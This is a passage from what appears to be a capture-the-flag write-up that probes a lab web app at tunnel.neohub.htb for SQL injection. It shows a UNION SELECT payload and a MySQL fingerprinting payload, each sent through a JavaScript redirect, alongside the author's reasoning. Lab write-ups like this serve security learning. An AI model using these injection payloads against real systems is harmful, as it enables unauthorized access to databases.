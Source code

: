 So its vulnerable to SQL Injection, let's try to perform union injection

```javascript
window.location.href = 'http://tunnel.neohub.htb/tunnels/1 UNION SELECT NULL,NULL,NULL,NULL'
```

![img](assets/union.png)

It appears that union injection is not feasible in this scenario. Before proceeding further, we should identify the database system in use. To do this, we'll test the database's behavior with a specific payload. If the following payload executes without error, it indicates that the database is MySQL.

```javascript
window.location.href = `http://tunnel.neohub.htb/tunnels/1 AND conv('a',16,2)=conv('a',16,2)`
```

![img](assets/err.png)
